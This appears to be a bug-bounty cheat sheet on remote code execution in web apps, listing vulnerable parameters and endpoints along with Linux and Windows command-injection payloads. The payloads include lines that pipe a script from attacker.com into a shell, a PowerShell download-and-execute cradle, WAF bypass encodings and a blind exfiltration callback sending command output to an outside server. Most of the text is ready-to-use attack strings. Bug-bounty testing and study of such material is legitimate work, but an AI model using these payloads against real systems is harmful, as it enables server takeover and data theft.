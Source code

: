 ## 🚨 Remote Code Execution (RCE) — Payloads, Bypasses & Real-World Tips
> RCE is one of the most critical vulnerabilities in web apps — allowing attackers to run arbitrary commands on the server. Here’s how to hunt it, bypass filters, and exploit it effectively.

### ✅ Where to Look:

**🔹 Common vulnerable parameters:**

`cmd=` , `exec=` , `ping=` , `ip=` , `host=` , `url=` , `path=` , `file=` , `log=`

Anything passed to system functions : system(), exec(), popen(), etc.

🔹 Dangerous endpoints:
`/admin` , `/tools/` , `/debug/` , `/run` , `/test` , `/shell`

### 💥 Payload Examples (Linux):
```
;whoami
|id
&uname -a
$(whoami)
`id`
|| ls -la
; curl attacker.com | sh
```


**Windows Payloads:**
```
& whoami
| powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/shell.ps1')"
```

### 🛡 Bypass Filters & WAF Tricks:

**Command Obfuscation:**
```
$(wh\oami)
`i$IFS$d`
whoami%00
```

**Double Encoding:**
```
%2526id
%26%26whoami
```
**Environment Injection:**
```
${run{whoami}}
${@system('id')}
```
URL Encoded Pipes:
```
%7C%7Cls
%26%26whoami
```

#### 🧠 Advanced Tips:
🔍 Use Burp Intruder to fuzz for RCE across multiple parameters
🧬 Combine with LFI to achieve RCE via log poisoning
🔁 Test for blind RCE using out-of-band payloads (webhook.site)

;curl http://<your-server>/?x=$(whoami)

🚩 What to Report:
- Full command execution
- Blind RCE (e.g., ping or DNS callback)
- RCE chained with upload, LFI, or SSRF
- Bypasses that work on protected endpoints

🔔 Stay sharp. Test responsibly. Report ethically.

🔗 Payload List : [Github.com](https://github.com/cybersecplayground/bugbounty-Tips-and-Tricks/blob/main/Payloads/rce_payloads.txt)

📡 For more payloads, recon tools, and real hunting tips, join our Telegram: 👉 [@cybersecplayground
](https://t.me/cybersecplayground)
👍 Star & Share to help fellow hunters.

> #bugbounty #rce #payloads #infosec #cybersecurity #ethicalhacking #hackingtips #websecurity
